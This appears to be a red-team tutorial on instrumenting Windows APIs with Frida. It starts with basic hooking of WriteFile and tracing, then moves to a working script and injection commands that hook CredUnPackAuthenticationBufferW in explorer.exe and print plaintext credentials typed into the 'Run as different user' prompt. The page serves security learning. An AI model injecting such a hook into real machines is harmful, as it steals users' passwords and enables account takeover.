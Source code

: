 # Instrumenting Windows APIs with Frida

## Spawning New Process with Frida

We can ask frida to spawn a new process for us to instrument:

```text
frida c:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/image%20%28578%29.png)

## Attaching Frida to Existing Process

We can ask frida to attach to an existing process:

```text
frida -p 10964
```

![](../../.gitbook/assets/image%20%28698%29.png)

## Hooking a Function

The below code in `hooking.js` will find address of the Windows API `WriteFile` \(lives in kernel32.dll/kernelbase.dll\) and hexdump the contents of the 1st argument passed to it:

{% code title="hooking.js" %}
```javascript
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
        console.log("Buffer dump:\n" + hexdump(args[1]));
        // console.log("\nBuffer via Cstring:\n" + Memory.readCString(args[1]));
        // console.log("\nBuffer via utf8String:\n" + Memory.readUtf8String(args[1]));
    }
});
```
{% endcode %}

Let's spawn a new `notepad.exe` through Frida and supply it with the above `hooking.js` code, so that we can start instrumenting the `WriteFile` API and inspect the contents of the buffer that is being written to disk:

```text
frida C:\windows\system32\notepad.exe -l .\hooking.js
```

![](../../.gitbook/assets/frida-instrumenting-api.gif)

Notice that we can update the `hooking.js` code and the instrumentation happens instantly - it does not require us to re-spawn the notepad or re-attaching Frida to it. In the above GIF, this can be seen at the end when we request the console to spit out the `process.id` \(the frida is attached to\) and the notepad process ID gets printed out to the screen instantly.

## Frida-Trace

If we want to see if certain API calls are invoked by some specific process, say `WriteFile`, we can use `frida-trace` tool like so:

```text
frida-trace -i "WriteFile" C:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/frida-trace.gif)

## Real Life Example - Intercepting Credentials

Below shows how we can combine the above knowledge for something a bit more interesting.

Can we intercept the plaintext credentials from the credentials prompt the user gets when they want to execute a program as another user?

![Credentials prompt presented for &quot;Run as different user&quot;](../../.gitbook/assets/credential-popup.gif)

The answer is of course yes, so let's see how this could be done using Frida tools.

Let's use `frida-trace` to see if explorer.exe ever calls any functions named `*Cred*` when we invoke the credentials popup:

```text
frida-trace -i "*Cred*" -p (ps explorer).id
```

Below, we can see that indeed, there is a call to `CredUIPromptForWindowsCredentialsW` made when the prompt is first invoked:

![](../../.gitbook/assets/credential-popup-trace.gif)

Entering some fake credentials shows the following interesting `Cred*` API calls are made \(in red\):

![](../../.gitbook/assets/image%20%28663%29.png)

...and the [`CredUnPackAuthenticationBufferW`](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credunpackauthenticationbufferw) \(in lime\) is of special interest, because per MSDN:

> The **CredUnPackAuthenticationBuffer** function converts an authentication buffer returned by a call to the [CredUIPromptForWindowsCredentials](https://docs.microsoft.com/en-us/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa) function into a string user name and password.

We can now instrument `CredUnPackAuthenticationBufferW` in a frida javascript like so:

{% code title="Credentials.js" %}
```javascript
var username;
var password;
var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")

Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
        // Credentials here are still encrypted
        /*
            CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
                0 DWORD  dwFlags,
                1 PVOID  pAuthBuffer,
                2 DWORD  cbAuthBuffer,
                3 LPWSTR pszUserName,
                4 DWORD  *pcchMaxUserName,
                5 LPWSTR pszDomainName,
                6 DWORD  *pcchMaxDomainName,
                7 LPWSTR pszPassword,
                8 DWORD  *pcchMaxPassword
            );        
        */
        username = args[3];
        password = args[7];
    },
    onLeave: function (result)
    {
        // Credentials are now decrypted
        var user = username.readUtf16String()
        var pass = password.readUtf16String()

        if (user && pass)
        {
            console.log("\n+ Intercepted Credentials\n" + user + ":" + pass)
        }
    }
});
```
{% endcode %}

We can now hook the explorer.exe by providing frida with our instrumentation script like so:

```text
frida -p (ps explorer).id -l C:\labs\frida\hello-world\credentials.js
```

![](../../.gitbook/assets/image%20%28670%29.png)

With `CredUnPackAuthenticationBufferW`  instrumented, entering credentials in the prompt launched by explorer.exe, gives us the expected result - the credentials are seen in plaintext:

![](../../.gitbook/assets/credential-popup-capture-credentials.gif)

## Resources

{% embed url="https://frida.re/docs/javascript-api/\#memory" %}


